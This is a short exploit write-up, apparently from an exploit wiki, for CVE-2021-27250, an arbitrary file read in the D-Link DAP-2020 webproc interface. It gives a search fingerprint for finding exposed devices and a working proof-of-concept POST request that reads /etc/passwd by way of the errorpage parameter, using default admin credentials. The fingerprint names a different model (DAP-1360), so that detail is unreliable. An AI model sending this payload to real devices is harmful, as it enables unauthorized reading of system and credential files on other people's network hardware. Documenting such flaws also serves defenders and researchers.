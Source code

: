 # D-LINK DAP-2020 webproc arbitrary file reading vulnerability CVE-2021-27250

## Vulnerability Description

Recently, D-Link issued an announcement [1] saying that its product DAP-2020 has an arbitrary file reading vulnerability, and the CVE number is CVE-2021-27250. It has been tested on the hardware version: A1, firmware version: 1.01. Since the vulnerability affects the core components, other versions may also be affected by this vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">D-LINK DAP-2020 </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="DAP-1360" && body="6.05"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657417802195-b0c19793-5041-4c70-8388-21a1827433b1.png)

Verify POC

```php
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657419070826-a79f2e11-02b4-406b-a728-435e5259ceba.png)